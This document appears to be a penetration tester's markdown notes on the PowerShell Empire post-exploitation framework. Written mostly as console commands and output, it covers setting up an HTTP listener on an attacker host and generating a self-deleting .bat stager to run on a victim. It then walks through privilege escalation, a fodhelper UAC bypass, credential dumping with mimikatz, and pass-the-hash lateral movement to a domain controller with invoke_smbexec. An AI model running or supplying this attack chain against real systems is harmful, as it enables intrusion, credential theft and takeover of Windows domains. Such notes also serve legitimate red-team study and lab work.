# PowerShell Empire

A post-exploitation framework which is useful once foothold is obtained.

* Tool: https://github.com/BC-SECURITY/Empire
* HowTo: https://hackmag.com/security/powershell-empire/

### Stating up PSempire

* Setup a server

`sudo powershell-empire server`

Server manages all requests and can be understood as a multi-player game server

Server address once started can be like `[*] Starting Empire RESTful API on 0.0.0.0:1337`

* Setup a client

Via client attacker uses server to attack victims. Connect to server address show like one above:

```bash

sudo powershell-empire client

#in the psempire shell connect to local host or other ip

(Empire) > connect -c localhost

[*] Connected to localhost

```

### Connecting to Victim

* To connect to victim it is necessary to setup a `listener` and a `stager`
* listener is going to wait on you attacker host for the stager, which is on victim host, to connect

#### Setup a Listener

```bash
#lsit listeners
(Empire) > listeners

#none right now
┌Listeners List──────┬───────────────────┬────────────┬─────────┐
│ ID │ Name │ Module │ Listener Category │ Created At │ Enabled │
└────┴──────┴────────┴───────────────────┴────────────┴─────────┘

#available listeners
(Empire: listeners) > uselistener

#press TAB after uselistener and get a list of possible listeners
(Empire: listeners) > uselistener
                                   dbx             
                                   http            
                                   http_com        
                                   http_foreign    
                                   http_hop        
                                   http_malleable  
                                   onedrive        
                                   redirector      

#http listener is always a good choice since not blocked mostly by FWs

(Empire: listeners) > uselistener http

 Author       @harmj0y                                                              
 Description  Starts a http[s] listener (PowerShell or Python) that uses a GET/POST                                                  
```

Now like with Metasploit set the attacker listener IP and port

```bash

(Empire: uselistener/http) > set Host 192.168.115.111
[*] Set Host to 192.168.119.158
(Empire: uselistener/http) > set Port 443
[*] Set Port to 443

#execute and enjoy

(Empire: uselistener/http) > execute
[+] Listener http successfully started

```

#### Setup a stager

Now somehow we need to connect to a victim. There are two ways of doing it:

1. bind: we connect to a victim
2. reverse: victim connects to us

Both of those ways need a stager that must be transferred to victim and activated preferrably with root or SYSTEM privileges.

```bash
#generate windows stager

(Empire: listeners) > usestager windows/launcher_bat

 Author       @harmj0y                                                            
 Description  Generates a self-deleting .bat launcher for Empire. Only works with 
              the HTTP and HTTP COM listeners.                                    
 Name         windows/launcher_bat  

#assign listener to stager

(Empire: usestager/windows/launcher_bat) > set Listener http
[*] Set Listener to http

# generate stager file 

(Empire: usestager/windows/launcher_bat) > execute
[+] stage1.bat written to /var/lib/powershell-empire/empire/client/generated-stagers/stage1.bat

#upload this stage file to victim host and launch it
#on success you see

[*] Sending agent (stage 2) to TV6GENUD at 192.168.158.10

# check if its really there 

(Empire: usestager/windows/launcher_bat) > agents

┌Agents──────────┬────────────┬───────────────┬─────────────┬
│ 1  │ TV6GENUD* │ powershell │ 172.16.158.10 │ corp\SYSTEM │ powershell │ 3708 │ 5/0.0 │ 2023-03-06 20:40:24 CET │ http     │

# looks good
# start using the connected agent

(Empire: agents) > interact TV6GENUD
(Empire: TV6GENUD) >

#see help for more interesting commands

(Empire: TV6GENUD) > help

# once task is started it may take some time until it runs due to delay

```

### Privesc

```bash

(Empire: TV6GENUD) > usemodule powershell/privesc/powerup/allchecks
[*] Set Agent to TV6GENU

```

* Bypassing UAC

`usemodule privesc/bypassuac_fodhelper`

### Stealing Credentials

```bash 

# what do we have?

usemodule credentials/

# lets have some quick win

usemodule credentials/mimikatz/logonpasswords

# mimikatz shell appears

mimikatz(powershell) # sekurlsa::logonpasswords

# or just simply

(Empire: TV6GENUD) > credentials


```

### Enumerating 

* `usemodule` command has various recon techniques

```powershell

# example for enumerating user

usemodule situational_awareness/network/powerview/get_user

```

### Lateral Movement

How to move around Active Directory

```bash

(Empire) > usemodule lateral_movement/invoke_smbexec

(Empire: powershell/lateral_movement/invoke_smbexec) > info

              Name: Invoke-SMBExec
            Module: powershell/lateral_movement/invoke_smbexec
        NeedsAdmin: False
         OpsecSafe: True
          Language: powershell
MinLanguageVersion: 2
        Background: False
   OutputExtension: None


(Empire: powershell/lateral_movement/invoke_smbexec) > set ComputerName DC1

(Empire: powershell/lateral_movement/invoke_smbexec) > set Listener http

(Empire: powershell/lateral_movement/invoke_smbexec) > set Username admin

(Empire: powershell/lateral_movement/invoke_smbexec) > set Hash a2c475c11da2a0748290d87aa966c327

(Empire: powershell/lateral_movement/invoke_smbexec) > set Domain example.com

(Empire: powershell/lateral_movement/invoke_smbexec) > execute


[*] Sending POWERSHELL stager (stage 1) to 10.xx.xx.xx
[*] New agent B18E4XVK checked in

# talk to new agent

interact B18E4XVK


```